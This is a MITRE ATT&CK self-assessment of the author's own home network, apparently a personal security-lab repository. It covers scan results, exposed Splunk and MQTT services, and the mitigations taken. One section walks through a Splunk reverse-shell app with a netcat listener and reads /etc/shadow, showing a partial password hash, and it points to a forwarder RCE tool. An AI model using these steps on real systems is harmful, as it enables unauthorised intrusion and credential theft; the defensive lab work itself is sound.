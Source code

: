 # MITTRE ATTACK analysis

# Iteration 1
This first iteration is based on the status where there were some exposed services.

| Tactics	| Techniques | Sub-tech	| Attack details	| Results	| Mitigations	| Detection	| Issues | Future actions |
|---|---|---|---|---|---|---|---|---|
|Reconnaissance TA0043	| Active Scanning	T1595	| Scanning IP Blocks 0.001	| connected via a mobile phone to get an externl IP ping home.pires.xyz results the 2.80.44.128 sudo nmap -sV | IP is 2.80.44.128 sudo nmap -sV home.rpires.xyz DNS record for 2.80.44.128: bl19-44-128.dsl.telepac.pt PORT     STATE  SERVICE  VERSION 80/tcp   open   http     lighttpd 1.4.69  113/tcp  closed ident 443/tcp  closed https  1883/tcp open mqtt 8000/tcp open   ssl/http Splunkd httpd |	M1056        Pre-compromise  detect and block uncommon data flows| My temporary IP is 87.196.80.59, which can be found at a webservice such as https://whatismyipaddress.com/. Or via cli with: dig +short myip.opendns.com @resolver1.opendns.com 87.196.80.59  There are 2 alerts generated, but the scan is not detected.|	No detection of uncommon data flows. | Create rules to indentify and block port scans.|
|Reconnaissance TA0043	| Active Scanning T1595	| Vulnerability Scanning 0.002	| splunk: https://book.hacktricks.xyz/network-services-pentesting/8089-splunkd Shodan does not find this server. mqtt: : mosquitto_sub -t ""#"" -h home.rpires.xyz 91 13 38.50| Above scan indentifies 3 open ports: 80, 1883 and 8000. Some analysis around the web raises some paths for an attack: - 80/lighttpd 1.4.69, no vulnerabilities found https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=lighttpd - 1883/mqtt, no vulnerabilities found. However a quick test confirms that mqtt is not secured. https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto - 8000/splunk: possibly unhautenticated, confirmed with accessing via a browser to https://home.rpires.xyz:8000/en-US/app/launcher/home. Authentication GUI is restricted to paid licenses. https://book.hacktricks.xyz/network-services-pentesting/8089-splunkd | M1042        Disable or Remove Feature or Program M1056        Pre-compromise activate authentication on splunk activate authentiction and encryption in mqtt service |	DS0029        Network Traffic not detected |	mqtt data is not encrypted neither the data sources are vetted, hence an adversary can listen and inject data. Splunk server may be compromised by a malicious actor by analyzing the logs and installing apps. One specific app may provide reverse shell | enable authentication on splunk enable authentiction and encryption in mqtt service |
|Reconnaissance TA0043	|Active Scanning T1595	|Wordlist Scanning 0.003	|dirbuster and zap scanning	|no major issues raised	|detect and block uncommon data flows such as scans or crawlers M1042        Disable or Remove Feature or Program M1056        Pre-compromise| DS0029        Network Traffic not detected |	none |updated ssh password and pihole password which were simple old passwords, collected in past breaches, confirmed in https://haveibeenpwned.com/|
|Initial Access TA0001	|Exploit Public-Facing Application	|n/a	|userless login to splunk server, then upload a malicious app as described in https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto	|root access to the splunk server machine	|The Spluk server can be protected by updating to the licensed version and thus: M1026        Privileged Account Management M1051        Update Software As last resort, put it in a DMZ: M1030        Network Segmentation Other mitigation is to use a reverse proxy: M1050        Exploit Protection |DS0015        Application Log, not detected DS0029        Network Traffic, not detected| root access to the splunk server machine	|track splunk application log, create reverse proxy access, consider licensing splunk, consider other FOSS tool|

After this initial access, the whole network is at stake, as the adversaty could:
* Persistance TA0003/T1098	Account Manipulation, create a new ssh account
* Lateral Movement TA0008/, all local machines and services could be compromised
  
## Attack steps and demo
* Guide: https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto
* Code: https://github.com/0xjpuff/reverse_shell_splunk
Step 1: git clone https://github.com/0xjpuff/reverse_shell_splunk  
Step 2: edit the attacker IP (own IP) and specicy a new port  
Step 3: tar and then rename to be packaged as a splunk app  
Step 4: deploy in the target splunk, and then reboot  

![pic](splunk_install_app.png)

Step 5: listen in your computer with:  
sudo nc -nlvp "2224"  
[sudo] password for rpires:   
Listening on 0.0.0.0 2224  
Connection received on 192.168.1.65 57714  
┌──(root💀kali)-[/]  
└─# cat /etc/shadow  
cat /etc/shadow  
root:!:18764:0:99999:7:::  
....  
user:$y$j9T$6Yi8mmJLaFPUnsIb/EUE31$9iJbm1a7TR/8SPry4ilRUqf5dQqcw1mDJlbdjRSGwsC:18764:0:99999:7:::  
splunk:!:19615:0:99999:7:::  
splunkfwd:!:19711:0:99999:7:::  

## Other attack
You can do RCE using the forwarder.
Exploit Overview: An exploit targeting the Splunk Universal Forwarder Agent (UF) allows attackers with the agent password to execute arbitrary code on systems running the agent, potentially compromising an entire network.  
Explained here https://book.hacktricks.xyz/linux-hardening/privilege-escalation/splunk-lpe-and-persistence and code here https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
Haven't tried this yet, however there are may potential victims available in Shodam.

## Mitigations done
### Improved homepage
The homepage was outdated following a previous crash of raspberryPi.
Check it out at http://home.rpires.xyz

### Hide splunk behind a reverse proxy
...  
Try it at https://home.rpires.xyz:8000

### Monitored splunk log
Added a new dashboard for splunk access logs.
Couldn't find the log files, that should be stored in /var/log/splunk/.


## Future mitigations
* Replace Splunk with a FOSS.
* move the webpage to https/443
* add authentication and encryption to MQTT. Need to assess if the ESPs can support
* track spluk users logs in splunk
  
# **Iteration 2**
This iteration is based on the status where the splunk server is protected with a reverse proxy and further detections were added to Splunk.
